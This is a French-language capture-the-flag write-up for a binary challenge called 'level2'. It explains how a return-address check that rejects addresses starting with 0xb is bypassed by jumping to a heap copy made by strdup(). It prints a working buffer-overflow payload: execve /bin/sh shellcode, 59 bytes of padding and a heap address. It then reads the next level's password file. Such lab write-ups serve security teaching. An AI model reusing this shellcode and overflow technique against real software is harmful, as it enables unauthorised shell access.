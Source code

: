 # level2 - Exploitation du Heap via strdup()

## Analyse du Programme

**Structure du Programme**
- Le `main()` appelle une fonction `p()`
- La fonction `p()` vérifie si l'adresse de retour contient `0xb`
- Utilisation de `strdup()` qui alloue de la mémoire dans le heap

**Points Clés**
- Adresse de retour de `strdup()`: `0x804a008`
- Offset du buffer overflow: 80 bytes
- Shellcode length: 21 bytes
- Padding nécessaire: 59 bytes (80 - 21)

## Stratégie d'Exploitation

**Contournement de la Protection**
- Le programme vérifie si l'adresse de retour contient `0xb`
- L'utilisation du heap via `strdup()` permet de contourner cette protection
- L'exécution de code en mémoire est active

**Construction du Payload**
1. Shellcode en début de payload (21 bytes)
2. Padding de 59 bytes
3. Adresse de retour de `strdup()`

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2
```

**Obtention du Flag**
```bash
cat /home/user/level3/.pass
```

Cette exploitation fonctionne car le shellcode est exécuté depuis le heap, évitant ainsi la vérification de l'adresse de retour contenant `0xb`.
